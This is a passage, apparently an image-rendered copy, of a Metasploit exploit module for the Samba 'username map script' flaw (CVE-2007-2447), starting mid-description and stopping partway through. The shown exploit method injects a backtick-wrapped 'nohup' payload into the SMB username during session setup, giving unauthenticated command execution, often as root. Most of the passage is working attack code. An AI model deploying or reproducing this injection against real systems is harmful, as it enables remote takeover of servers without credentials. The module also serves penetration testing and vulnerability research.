                                     No authentication is needed to exploit this vulnerability since
                                    this option is used to map usernames prior to authentication!
                            },
                            'Author'         => [ 'jduck' ],
                            'License'        => MSF_LICENSE,
                            'Version'        => '$Revision: 10040 $',
                            'References'     =>
                                    [
                                            [ 'CVE', '2007-2447' ],
                                            [ 'OSVDB', '34700' ],
                                            [ 'BID', '23972' ],
                                            [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                                            [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                                    ],
                            'Platform'       => ['unix'],
                            'Arch'           => ARCH_CMD,
                            'Privileged'     => true, # root or nobody user
                            'Payload'        =>
                                    {
                                            'Space'    => 1024,
                                            'DisableNops' => true,
                                            'Compat'      =>
                                                    {
                                                            'PayloadType' => 'cmd',
                                                            # *_perl and *_ruby work if they are installed
                                                            # mileage may vary from system to system..
                                                    }
                                    },
                            'Targets'        =>
                                    [
                                            [ "Automatic", { } ]
                                    ],
                            'DefaultTarget'  => 0,
                            'DisclosureDate' => 'May 14 2007'))
    
                    register_options(
                            [
                                    Opt::RPORT(139)
                            ], self.class)
            end
    
    
            def exploit
    
                    connect
    
                    # lol?
                    username = "/=`nohup " + payload.encoded + "`"
                    begin
                            simple.client.negotiate(false)
                            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                    rescue ::Timeout::Error, XCEPT::LoginError
                            # nothing, it either worked or it didn't ;)
                    end
    